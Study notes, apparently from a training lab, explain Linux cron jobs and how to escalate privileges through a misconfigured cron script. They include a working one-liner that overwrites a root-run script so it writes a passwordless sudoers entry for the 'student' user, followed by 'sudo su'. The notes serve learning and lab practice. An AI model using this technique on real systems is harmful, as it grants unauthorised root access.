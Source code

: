## What are Cron jobs
* Linux implements task scheduling through a utility called Cron
* Cron = time-based service --> that runs applications, scripts and other commands repeatedly on a specified schedule.
* Cron job = An application or script that has been configured to be run rpeeatedly with Cron. Eg: Daily backups to system upgrades and patches
* Crontab file = A configuration file used by the Cron utility to store and track Cron jobs that have been created.

## Exploiting misconfigure Cron jobs
* Cron jobs created by root users = Will run with root privileges

## PRACTICAL
* Figuring out whether I have any Cron jobs running, requires a lot of enumeration and search.
* `ls` --> This will reveal some folders. If we want to search for one of the folders, Go to the "/" and execute -->
* `grep -rnw /usr -e "/home/student/message"` --> This will reveal the path:line no.:first few lines of code
* To know what's path of the file: `ls -al` + `pwd`

* Step 1: Identifying the scripts that have been used by a Cron job.
* Step 2: Find if that shell script can be modified by an unprivileged user  --> That's the main flaw or vulnerability
* Step 3: Modify the script to add the current non-privileged user to sudoers file  --> Will allow to run commands that otherwise require root privileges or authentication. -->
* `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL">> /etc/sudoers' > /usr/local/share/copy.sh`
* Adding the non-privileged user to sudoers file will allow to execute: `sudo su`. --> This will increase the privileges to the root user.
* If I am a privileged user, I can list the Cron jobs started by the user: `crontab -l`
